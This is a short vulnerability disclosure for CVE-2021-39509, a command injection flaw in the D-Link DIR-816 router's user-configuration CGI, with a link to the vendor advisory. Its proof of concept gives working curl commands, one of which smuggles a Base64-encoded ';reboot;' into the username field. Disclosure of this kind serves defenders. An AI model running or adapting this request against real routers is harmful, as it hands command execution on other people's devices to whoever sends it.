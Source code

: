 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10240

##### POC&&EXP
First, get the tokenid 
```
curl -s http://192.168.33.9/dir_login.asp  | grep tokenid
```
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=IjtyZWJvb3Q7Ig==&oldpass=123&newpass=MTIz&confpass=MTIz&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send&tokenid=xxxxx"#input id
```
It will decode our command Base64 and execute it 

### CVE ID
CVE-2021-39509

